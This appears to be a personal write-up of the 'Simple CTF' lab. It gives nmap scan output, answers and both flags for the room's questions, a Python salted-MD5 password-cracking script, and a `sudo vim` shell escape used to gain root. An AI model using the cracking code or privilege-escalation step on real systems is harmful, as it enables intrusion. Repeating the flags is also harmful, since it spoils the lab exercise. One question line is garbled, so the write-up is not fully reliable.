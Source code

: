 # Simple CTF

**Notes**
```
# Nmap 7.80 scan initiated Mon Apr  5 11:25:51 2021 as: nmap -sC -sV -vv -oN nmap_scan 10.10.149.143
Nmap scan report for 10.10.149.143
Host is up, received syn-ack (0.038s latency).
Scanned at 2021-04-05 11:25:52 BST for 41s
Not shown: 997 filtered ports
Reason: 997 no-responses
PORT     STATE SERVICE REASON  VERSION
21/tcp   open  ftp     syn-ack vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.32.89
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD POST
| http-robots.txt: 2 disallowed entries 
|_/ /openemr-5_0_1_3 
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
2222/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCj5RwZ5K4QU12jUD81IxGPdEmWFigjRwFNM2pVBCiIPWiMb+R82pdw5dQPFY0JjjicSysFN3pl8ea2L8acocd/7zWke6ce50tpHaDs8OdBYLfpkh+OzAsDwVWSslgKQ7rbi/ck1FF1LIgY7UQdo5FWiTMap7vFnsT/WHL3HcG5Q+el4glnO4xfMMvbRar5WZd4N0ZmcwORyXrEKvulWTOBLcoMGui95Xy7XKCkvpS9RCpJgsuNZ/oau9cdRs0gDoDLTW4S7OI9Nl5obm433k+7YwFeoLnuZnCzegEhgq/bpMo+fXTb/4ILI5bJHJQItH2Ae26iMhJjlFsMqQw0FzLf
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBM6Q8K/lDR5QuGRzgfrQSDPYBEBcJ+/2YolisuiGuNIF+1FPOweJy9esTtstZkG3LPhwRDggCp4BP+Gmc92I3eY=
|   256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJ2I73yryK/Q6UFyvBBMUJEfznlIdBXfnrEqQ3lWdymK
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr  5 11:26:33 2021 -- 1 IP address (1 host up) scanned in 41.98 seconds
```

**Questions**

    1. How many services are running under port 1000?

2

    2. What is running on the higher port?

SSH

    3. What is running on the higher port?

CVE-2019-9053

    4. To what kind of vulnerability is the application vulnerable?

SQLI

    5. What's the password?

secret

This question was a total disaster for me. Regardless of how I modified the exploit I could not get it to execute correctly. It would not perform the final password cracking stage.

At this time I had the salt and the hash, which I was able to throw into hashcat in order to get the correct password.

This wasn't enough for me, so knowing what the correct password was, I was able to create a python script to complete the final stage of the exploit for me.

```python
#!/usr/bin/env python3

import hashlib
import sys

f = open(sys.argv[1],'r',encoding='utf-8')
contents = f.readlines()
salt='1dac0d92e9fa6bb2'
password='0c01f4468bd75d7a84c7eb73846e8d96'

#count=0
#contents=salt+contents
for line in contents:
    line2 = salt+line
    line2 = line2.strip()
    #if hashlib.md5(str(salt) + line).hexdigest() == password:
    possible_pass = hashlib.md5(line2.encode())
    if possible_pass.hexdigest() == password:
        print("Password Cracked: " + line)
        break
```

I highly doubt this is the most optimised way of doing things but it doesn't matter, it was able to trawl through the rockyou dictionary in about 10 seconds (I tested this by removing secret and placing it at the end of the wordlist).

Using my new knowledge, I was able to fix the original exploit given in order to return the password the way that was intended.

    6. Where can you login with the details obtained?

SSH

    7. What's the user flag?

G00d j0b, keep up!

    8. Is there any other user in the home directory? What's its name?

sunbath

    9. What can you leverage to spawn a privileged shell?

vim

`sudo vim -c ':!/bin/bash'`.


    10. What's the root flag?

W3ll d0n3. You made it!